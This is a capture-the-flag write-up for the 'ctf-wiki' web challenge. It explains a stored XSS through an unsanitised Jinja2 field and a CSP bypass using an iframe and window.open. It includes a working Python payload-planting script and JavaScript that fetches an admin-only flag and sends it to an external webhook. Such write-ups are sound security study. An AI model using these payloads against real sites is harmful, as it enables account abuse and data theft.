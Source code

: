 # **ctf-wiki | 38 solves**
I am such a huge fan of CTF players that I decided to create a wiki with some of my favorites! Hopefully, none of them hack it. ;D

[ctf-wiki.chall.lac.tf](ctf-wiki.chall.lac.tf)

## **Description**
We are given a url, an Admin bot link, and the source code for the main page. The website is a Flask application that lets you add a decription of a CTF player. Once we fill in the fields, we get back a note created with a specific UUID that can later be referenced.
![create endpoint](image.png)


Looking at the source code, we see two main endpoints: `/edit`, and `/view`. However if when we are logged in, and we try to visit `/view`, we are instantly redirected to `/edit`. We can see this implemented in the source:

```py
@app.get("/view/<pid>")
def page(pid):
    if session.get("username") is not None and session.get("password") is not None:
        return redirect("/edit/{}".format(pid))
```

Which explicitly redirects us to the `edit` endpoint. 

Looking around the source code more, we can see where the flag is stored.
```py
@app.post("/flag")
def flag():
    adminpw = os.environ.get("ADMINPW") or "admin"
    if session.get("password") != adminpw:
        return redirect("/login?error=" + urllib.parse.quote_plus("Not the admin."))

    flag = os.environ.get("FLAG") or "lactf{test-flag}"
    return flag, 200
```

For this, we need to make a post request to `/flag`, with an account using the correct admin password. Since we have an Admin Bot for this challenge as well, its clear now that we need some sort of XSS to make the admin request this flag for us, and then we can exfiltrate it to a server we control.

And looking at the template for `view.html`, we can see exactly where this XSS is:
```html
<div class="ctfer-info">{{ description | safe }}</div>
```

Which in Jinja2 templates will not sanitize the input placed there, meaning we can put arbitrary HTML and JS in the description. 
Finally, we can see a CSP is enforced on the pages with a valid session.

```py
@app.after_request
def apply_csp(response):
    if session.get("username") is not None and session.get("password") is not None:
        response.headers[
            "Content-Security-Policy"
        ] = "default-src 'self'; img-src *; font-src https://fonts.gstatic.com https://fonts.googleapis.com; style-src 'self' https://fonts.googleapis.com"
    return response

```
The `default-src=self` will be a fallback for CSP directives that were not specified in this list, so when exfiltrating we will additionally need to take this into consideration.

## **Solution**
The base idea of the challenge will utilize the fact that if the ctf-wiki page is embedded in an iframe on an attacker controlled page, that frame will not send session cookies. Meaning if we can get the Admin to visit our page, and embed the `/view` endpoint, it will not send the admin session. However, that iframe can create a window using `window.open`, and the window it creates will send the cookies! Additionally since these are the same origin, the payload in `/view` will be able to access the window object of the cookie page, and therefore execute JS!

Now from here we can make the fetch request, but we need to somehow send this to our domain. 

### XSS on window with cookies
To get a simple POC, we can first create a note that creates a new window, then executes some JS inside that window.

```py
import requests
from base64 import b64encode

cookies = {
    'session': 'eyJwYXNzd29yZCI6IjEyMzQiLCJ1c2VybmFtZSI6ImFoaCJ9.ZdLx0w.E2vT2k0HzBa_iXbhdqHgGiR-oxg',
}

payload = f"""
w = window.open("https://ctf-wiki.chall.lac.tf/");
w.alert(1);
""".strip()

data = {
    'id': 'd74c05271ee7f058e376451a59086650',
    'name': 'asdf',
    'image': 'asdf',
    'team': 'asdf',
    'specialty': 'asdf',
    'website': 'asdf',
    'description': f'<img src=x onerror="eval(atob(\'{b64encode(payload.encode()).decode()}\'))">',
}

response = requests.post(
    'https://ctf-wiki.chall.lac.tf/edit/d74c05271ee7f058e376451a59086650',
    cookies=cookies,
    data=data,
)
```

Then we can host the `/view` endpoint for this page on our own domain in an iframe.
```html
<iframe id="thing" src="https://ctf-wiki.chall.lac.tf/view/d74c05271ee7f058e376451a59086650"></iframe>
```

When we visit our site now when logged in on ctf-wiki, (after enabling popups) we can see a page opened and an alert fired.
![Alert](image-1.png)
Whats important is that the alert is on the new page, and additionally, we can see that the new page will be logged in.
![logged in](image-3.png)

Now we can try adjusting our payload to make a fetch to `/flag`, and send it to a webhook.
```js
w = window.open("https://ctf-wiki.chall.lac.tf/");
w.onload = () => {
    w.fetch('https://ctf-wiki.chall.lac.tf/flag', {method: "POST"}).then(r => r.text()).then(r => {
        fetch("https://eo4r52sc1021bl8.m.pipedream.net?flag=" + btoa(r));
    });
}
```

Note here we are using w.fetch to fetch the `/flag` endpoint, but just fetch to send it back to us. This is since the CSP will prevent using w.fetch to make a request outside the `https://ctf-wiki.chall.lac.tf/` origin, however the cookieless page does not have that CSP restriction.

Finally, we send this to the Admin Bot, get our callback, and base64 decode to get the flag!
![alt text](image-4.png)

---
## **Flag**: `lactf{k4NT_k33P_4lL_my_F4v0r1T3_ctF3RS_S4m3_S1t3}`


## Additional Note: 
During the CTF, I honestly don't know how I didn't try this. I think I accidently tried w.fetch when exfiltrating, got the `connect-uri` CSP issue, and then just resorted to the option I knew on how to solve that which was using WebRTC. 

A reference for that payload is this very well written writeup for SekaiCTF GolfJail which used that same technique.
[https://blog.antoniusblock.net/posts/golfjail/](https://blog.antoniusblock.net/posts/golfjail/)

You can send the same request, but modifying the data to the request response, and collect the response in the DNS query:
![](image-5.png)

But yeah there fetch from the cookieless CSPless page is alot more straightforward lol. In the words of the author himself:
![alt text](image-6.png)